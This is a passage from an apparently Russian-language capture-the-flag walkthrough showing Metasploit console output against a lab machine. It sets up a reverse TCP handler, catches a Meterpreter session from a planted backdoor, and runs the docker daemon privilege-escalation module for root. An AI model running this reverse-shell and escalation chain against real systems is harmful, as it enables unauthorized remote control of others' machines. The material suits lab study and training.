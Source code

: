 ```text
   ----   ---------------  --------  -----------
   LHOST  10.10.14.14      yes       The listen address (an interface may be specified)
   LPORT  4444              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:4444
```

Активируем бэкдор на прометее и ловим сессию:
```text
[*] Meterpreter session 1 opened (10.10.14.14:4444 -> 10.10.10.83:48154) at 2018-08-26 11:02:13 -0400
```

Дальше как по нотам: уходим в фон, выбираем нужную нагрузку (`docker_daemon_privilege_escalation`) для апгрейда сессии и получаем права суперпользователя:
```text
meterpreter > CTRL-Z
Background session 1? [y/N] y
msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                             Connection
  --  ----  ----                   -----------                                             ----------
  1         meterpreter x86/linux  uid=1000, gid=1000, euid=1000, egid=1000 @ 10.10.10.83  10.10.14.14:4444 -> 10.10.10.83:48154 (10.10.10.83)

msf exploit(multi/handler) > use exploit/linux/local/docker_daemon_privilege_escalation
msf exploit(linux/local/docker_daemon_privilege_escalation) > show options

Module options (exploit/linux/local/docker_daemon_privilege_escalation):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.14      yes       The listen address (an interface may be specified)
   LPORT  4444              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf exploit(linux/local/docker_daemon_privilege_escalation) > run
```